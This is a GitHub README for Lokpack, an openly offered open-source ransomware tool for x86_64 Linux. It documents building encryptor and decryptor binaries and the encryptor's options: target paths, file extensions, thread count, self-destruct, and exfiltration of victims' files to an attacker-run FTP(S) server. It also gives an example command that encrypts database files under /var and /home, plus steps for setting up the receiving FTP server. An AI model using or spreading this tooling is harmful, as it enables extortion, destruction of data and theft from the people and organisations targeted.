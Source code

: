# Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable AES-256 encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools 
- curl (and headers)
- openssl (and headers)

To generate static builds, you will need static libraries of curl and openssl, 
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources
- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)

---
<img src="https://files.ngn.tf/gpl3.png" width="200px">
